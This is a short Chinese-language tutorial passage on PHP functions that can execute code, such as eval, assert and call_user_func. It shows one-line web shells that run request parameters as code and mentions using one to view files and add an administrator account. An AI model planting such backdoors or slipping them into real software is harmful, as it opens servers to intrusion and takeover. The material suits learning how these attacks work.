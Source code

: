 eval() 函数把字符串按照 PHP 代码来计算。该字符串必须是合法的 PHP 代码，且必须以分号结尾。如果没有在代码字符串中调用 return 语句，则返回 NULL。如果代码中存在解析错误，则 eval() 函数返回 false。

在服务器上创建一下代码test.php：

```php
<?php，
$code=$_GET['x'] ; 
eval($code);
?>
```

查看文件：

![image-20220804103612237](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220804103612237.png)

查看管理员：

![img](https://i0.hdslb.com/bfs/article/1809d2c695ee31ad7df983396c96fe9f2e56fb5a.png@831w_98h_progressive.webp)

添加管理员：

![img](https://i0.hdslb.com/bfs/article/42c39426697b4bf2945f925da0de0748f9bc0fce.png@696w_65h_progressive.webp)

#### assert()

```php
<?php assert($_POST['a']);?>

// 支持动态调用，但是在php7.0.29之后的版本不支持动态调用
<?php
$a = 'assert';
$a($_POST['a']);
?
```

#### preg_replace()

此函数的作用是对一个字符串进行正则处理。

```php
mixed preg_replace ( mixed $ pattern , mixed $ replacement , mixed $ subject [, int $ limit = -1 [, int &$ count ]] )
```

#### call_user_func()

把第一参数作为回调函数

#### call_user_func_array()

调用回到函数，并把第一个数组参数作为回到函数的参数

#### array_ map()

为数组的每个元素应用回调函数

